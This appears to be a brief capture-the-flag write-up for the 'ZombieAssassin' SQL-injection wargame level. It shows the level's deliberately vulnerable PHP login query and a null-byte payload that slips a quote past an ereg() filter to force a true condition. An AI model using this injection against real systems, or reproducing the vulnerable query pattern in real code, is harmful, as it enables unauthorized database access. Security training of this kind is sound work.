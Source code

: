 # **ZombieAssassin**

```
<?php   
  include "./config.php";   
  login_chk();   
  dbconnect();   
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");   
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");   
  if(@ereg("'",$_GET[id])) exit("HeHe");   
  if(@ereg("'",$_GET[pw])) exit("HeHe");   
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id']) solve("zombie_assassin");   
  highlight_file(__FILE__);   
?>
```

https://hydrasky.com/network-security/sql-injection-bypass-cheatsheet/

Null Bytes bypass WAF.

`?id=%00%27||1%23`
